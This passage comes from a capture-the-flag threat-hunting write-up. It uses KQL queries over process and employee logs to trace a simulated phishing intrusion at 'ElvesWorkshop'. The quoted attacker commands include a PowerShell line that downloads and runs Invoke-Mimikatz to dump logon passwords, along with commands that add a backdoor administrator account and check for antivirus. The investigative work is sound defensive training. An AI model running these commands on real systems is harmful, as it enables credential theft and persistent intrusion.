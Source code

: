 Next we use the hostname from question 5 and the time from the above query to search for commands that the attacker ran on the web app:

```sql
ProcessEvents
| where hostname =="WebApp-ElvesWorkshop"
| where timestamp >= datetime("2024-11-29T12:25:03Z")
| project process_commandline;
```

Looking at the attacker's commands we see that the 5th command downloads and runs a powershell script `Mimikatz.ps1` that dumps login credentials:

```
ipconfig /all
net localgroup administrators frosty /add
net user frosty AllYourBaseBelongToUs /add
net view /domain
powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command "privilege::debug" "sekurlsa::logonpasswords"
tasklist | findstr /I "avp.exe"
tasklist | findstr /I "mcshield.exe"
tasklist | findstr /I "norton.exe"
```

#### Question 7
*Okay back to Noel, after downloading the file, Noel Boetie followed the instructions in the email and ran it, but mentioned that nothing appeared to happen.*

*Since the email came from an internal source, Noel assumed it was safe - yet this may have been the moment the unknown threat actor silently gained access. We need to identify exactly when Noel executed the file to trace the beginning of the attack.*

*Eve Snowshoes, "It’s easy to see why Noel thought the email was harmless - it came from an internal account. But attackers often use compromised internal sources to make their phishing attempts more believable."*

***What is the timestamp where Noel executed the file?***
> 2024-12-12T15:14:38Z

First we get Noel Boetie's username from the `Employees` table:

```sql
Employees
| where name == "Noel Boetie"
| project username
| take 1;
```

From question 3, we know the time that Noel Boetie clicked on the phishing link. Additionally we know the link was to a file named `echo.exe`. Using the above query and the information from question 3, we search for processes involving the `echo.exe` file on Noel Boetie's computer that ran after he clicked on the phishing link:

```sql
ProcessEvents
| where username == "noboetie"
| where timestamp >= datetime("2024-12-12T15:13:55Z")
| where process_commandline has "echo.exe"
| sort by timestamp asc
| project timestamp, process_commandline;
```
